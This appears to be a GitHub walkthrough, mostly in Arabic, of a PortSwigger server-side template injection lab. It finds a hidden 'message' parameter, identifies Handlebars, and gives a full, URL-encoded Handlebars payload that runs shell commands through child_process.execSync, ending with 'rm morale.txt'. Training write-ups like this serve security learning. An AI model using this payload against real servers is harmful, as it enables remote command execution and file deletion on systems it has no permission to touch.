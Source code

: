 ## Welcome, my friend. Today we will start the [4. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit) in ```portswigger```
### Let's play this lab:

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/67461762-3861-4244-88c5-ee4fb9086d6d)


### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي.
![image](https://github.com/user-attachments/assets/07247f18-16a6-4c5c-a445-bc5eccfb2ab4)

### لم نلاحظ اي شئ مهم لغاية دلوقتي هنبدأ نبحث على param hidden من خلال burp امتداد param miner وطبعا نجربنا نفس الكلام في اول لاب واكتشفنا ذلك الparam اللي اسمه message:

![image](https://github.com/user-attachments/assets/e46daee4-f2b7-4a6e-8a60-4516189b486d)

### نبدأ نحقن كود زي ده علشان نشوف هيحصل تغير ولا لا
```
/?message=${{<%[%'"}}%\
```

![image](https://github.com/user-attachments/assets/521b8f1b-1e29-44a1-af2b-c92ec5dc9be7)



### جميل تم ظهور خطأ يشير ان المكتبة المستخدمة هي Handlebars. دلوقتي ممكن نبحث عن اكواد الحقن :
![image](https://github.com/user-attachments/assets/9bbcd51a-f8ad-4a4c-9de7-38bce1dd7864)


### هنستخدم ذلك الكود:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
### ولكن هيتم تشفيره url encode:
![image](https://github.com/user-attachments/assets/17fffaea-6acb-4e06-8a92-e5d3bf6235bc)

![image](https://github.com/user-attachments/assets/3c1d35e9-51fd-4c45-a36b-f3515a701d45)

```
/?message={{%23with "s" as |string|}}%0A%20 {{%23with "e"}}%0A%20%20%20 {{%23with split as |conslist|}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{this.push (lookup string.sub "constructor")}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{%23with string.split as |codelist|}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{this.push "return require('child_process').execSync('whoami')%3B"}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{%23each conslist}}%0A%20%20%20%20%20%20%20%20%20 {{%23with (string.sub.apply 0 codelist)}}%0A%20%20%20%20%20%20%20%20%20%20%20 {{this}}%0A%20%20%20%20%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20%20%20%20%20 {{%2Feach}}%0A%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20 {{%2Fwith}}%0A%20 {{%2Fwith}}%0A{{%2Fwith}}
```

![image](https://github.com/user-attachments/assets/195df938-c405-4282-b71a-38b8f79d6604)

### ثم نستخدم ذلك الكود:

```
/?message={{%23with "s" as |string|}}%0A%20 {{%23with "e"}}%0A%20%20%20 {{%23with split as |conslist|}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{this.push (lookup string.sub "constructor")}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{%23with string.split as |codelist|}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{this.push "return require('child_process').execSync('ls')%3B"}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{%23each conslist}}%0A%20%20%20%20%20%20%20%20%20 {{%23with (string.sub.apply 0 codelist)}}%0A%20%20%20%20%20%20%20%20%20%20%20 {{this}}%0A%20%20%20%20%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20%20%20%20%20 {{%2Feach}}%0A%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20 {{%2Fwith}}%0A%20 {{%2Fwith}}%0A{{%2Fwith}}
```
![image](https://github.com/user-attachments/assets/efcf452d-1834-4f3f-860d-f043670463c4)



### علشان نحل ذلك التحدي لازم نحذف ملف ```morale.txt```. هنستخدم ذلك الكود:
```
/?message={{%23with "s" as |string|}}%0A%20 {{%23with "e"}}%0A%20%20%20 {{%23with split as |conslist|}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{this.push (lookup string.sub "constructor")}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{%23with string.split as |codelist|}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{this.push "return require('child_process').execSync('rm morale.txt')%3B"}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{%23each conslist}}%0A%20%20%20%20%20%20%20%20%20 {{%23with (string.sub.apply 0 codelist)}}%0A%20%20%20%20%20%20%20%20%20%20%20 {{this}}%0A%20%20%20%20%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20%20%20%20%20 {{%2Feach}}%0A%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20 {{%2Fwith}}%0A%20 {{%2Fwith}}%0A{{%2Fwith}}
```

![image](https://github.com/user-attachments/assets/b5203751-e69f-46c5-ac95-c25bf75a4203)

## وهنا تم حل اللاب يا صديقي ;)





-----------------

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>
